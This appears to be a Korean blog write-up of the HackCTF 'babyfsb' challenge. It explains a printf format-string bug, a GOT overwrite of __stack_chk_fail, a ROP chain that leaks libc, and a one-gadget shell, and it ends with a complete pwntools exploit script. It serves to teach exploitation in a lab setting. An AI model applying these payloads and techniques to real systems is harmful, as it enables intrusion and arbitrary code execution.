 ```yaml
---
layout: post
title:  "HacCTF babyfsb write-up"
date:   2020-03-20 19:45:55
image:  hackctf_babyfsb.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] babyfsb

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled.png)

PIE는 걸려있지 않지만 이번에는 카나리가 걸려있다.



**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%201.png)

hello 라는 문자열이 출력되고 입력할수 있는 공간이 나온다. 그 뒤 입력한 문자열이 출력되고 바로 종료가 된다.



**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%202.png)

read로 0x40 만큼 입력을 받는다. ret 을 덮을 수 없는 사이즈이다.

10라인에서 printf 를 이용해 fsb가 가능할 것으로 보인다.





### 2. 접근방법

---

일반적으로 fsb를 이용하면 " % $ n 등등.." 이러한 서식문자를 이용하여 특정함수의 got를 덮고, 원하는 got_overwrite를 이용하여 원하는 동작을 일으키는 식으로 문제를 풀었었다.

64bit 환경이기 때문에 %p 5개를 입력하고 그다음 서식문자부터 rsp의 값들을 leak할수 있다. 한번 상황을 봐보자.

 

- printf (" %p %p %p %p %p %p %p %p")

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%203.png)

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%204.png)

0x7fffffffdcc0 이 현재 ret주소를 담고있는 주소이다. 여기 ret주소를 가리키고 있는 부분이 없기 때문에 곧바로 ret 값을 변경할 수 없다. 또한 만약 어찌해서 특정 함수의 got를 덮었다고 해도 printf 함수다음 return 0 이 나오기 때문에 해당 함수를 실행시킬수 없다.

하지만 !! 문제를 잘 보면 현재 카나리가 걸려있다. 따라서 카나리를 체크하는 함수가 어셈블리로 보면 확인가능하다.

    	 0x0000000000400711 <+107>:	mov    rcx,QWORD PTR [rbp-0x8]
       0x0000000000400715 <+111>:	xor    rcx,QWORD PTR fs:0x28
       0x000000000040071e <+120>:	je     0x400725 <main+127>
       0x0000000000400720 <+122>:	call   0x400550 <__stack_chk_fail@plt>
       0x0000000000400725 <+127>:	leave  
       0x0000000000400726 <+128>:	ret

카나리 값은 rbp-0x8에 위치해 있는데, 이는 read함수로  덮을수 있다. 해당 값이 변조되면 stack_chk_fail 함수가 호출된다. 따라서 해당 함수의 got를 덮으면 된다 !



- **libc 주소 leak 시나리오**
    1. stack_chk_fail 함수의 got를 " pop rdi; ret " 가젯 주소로 덮는다.
    2. 일부로 카나리를 변조하여 해당 함수가 실행되게끔 한다.
    3. stack_chk_fail 함수가 실행되면 현재 got에 pop rdi; ret 주소로 덮혀져 있기 때문에 가젯 주소로 간다
    4. puts의 주소를 leak해야하기위해 rdi에 puts_got를 넣고 puts_plt를 넣는다.
    5. payload = %(pop rdi;ret 주소 10진수값)c %8 $ln +"AA" // align을 위해 AA두개를 넣음

        payload += stack_chk_fail_got 주소

        payload += puts_got 주소

        payload += puts_plt 주소

        payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%205.png)

    위 상황은 현재 위 시나리오의 페이로드를 보내고나서, stack_chk_fail 함수가 호출된 상태이다.

    원하는대로 해당 함수의 got가 덮혀져 가젯 주소로 ret되었다. 근데, 여기서 stack을 보면 약간 이상하다. 원래대로라면 rdi에 put_got가 들어가야하는데, 현재 스택 최상단에 0x400725가 들어가있어 이 값이 rdi에 들어간다.

    원하는 값인 0x601018은 스택에서 5번째에 위치해 있는 것을 볼수 있다. 따라서 위 시나리오의 페이로드를 전송하면 에러가 난다. 우리는 pop rdi ; ret 가젯을 이용하기 전에 스택을 먼저 맞추기 위해 pop pop pop pop ret; 가젯을 먼저 호출해야한다.

    그래야 4번의 pop이 일어나고 우리가 넣은 값을 이용할 수 있다. 정리하면 ppppr 가젯으로 got를 덮고 그다음 pop rdi; ret를 넣은뒤 그 뒤에 put_got, put_plt를 넣어주면 된다.



    **페이로드 수정 !**

    - payload = %(pop pop pop pop ; ret; 주소 10진수값)c %8 $ln +"AA"

        payload += stack_chk_fail_got 주소

        payload += pop rdi; ret 주소

        payload += puts_got 주소

        payload += puts_plt 주소

        payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

        payload += main 주소

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%206.png)

    수정된 페이로드로 디버깅을 했을때 stack_chk_fail 함수가 실행되어 ppppr 주소로 돌아갔고, ret가 실행되면 pop rdi; ret 주소로 가는 것을 확인할 수 있다. 그 이후 0x601018을 rdi에 제대로 저장할 것이다.

    이렇게 하면 puts의 주소를 leak할 수 있고, 이를 이용하여 libc_base 주소를 구할 수 있다.

    그다음은 다시 main으로 돌아가서 stack_chk_fail got를 one gadget주소로 덮으면 끝이다





### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    #p=remote("ctf.j0n9hyun.xyz", 3032)
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    p=process("./babyfsb",env=env)
    e=ELF("./babyfsb")
    libc=ELF("./libc.so.6")
    
    one_shot_off=0x45216
    
    gdb.attach(p)
    p.recvuntil("hello\n")
    pause()
    payload = "%4196236c%8$ln"+"AA"+p64(0x601020)+p64(0x400793)+p64(e.got['puts'])+p64(e.plt['puts'])
    payload += p64(0x4006A6) # main
    payload += "C"*(0x40-len(payload))
    p.send(payload)
    
    put_addr=u64(p.recvuntil("hello\n")[-13:-7]+"\x00\x00")
    libc_base=put_addr-libc.symbols['puts']
    log.info(hex(libc_base))
    log.info(hex(libc_base+one_shot_off))
    pause()
    payload2 = "%4196236c%8$ln"+"AA" + p64(0x601020)+p64(libc_base+one_shot_off)
    payload2 += "C"*(0x40-len(payload2))
    p.send(payload2) 
    p.interactive()





### 4. 몰랐던 개념

---

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%207.png)

원샷 가젯을 실행시키면 위와 같이 4개의 one gadget offset 주소를 확인 할 수 있는데, 해당 문제에서는 맨 위의 오프셋만 정상적으로 동작하고 나머지 3개는 에러를 뿜는다.

나머지 3개가 에러를 뿜는 이유를 첨에는 몰랐는데 2번째 인자에 execve를 이용하여 쉘을 얻으려면 2,3번째 인자가 널이여야한다. 따라서 rsp+0x30, rsp+0x50, rsp+0x70 이 3개는 해당 one gadget이 호출되었을때 널이 아니여서 execve가 제대로 동작하지 않은 것이다.

첫번째 offset이 실행되기 위해서는 rax=NULL 이여야하는데 내부적으로 해당 조건이 만족되는것 같다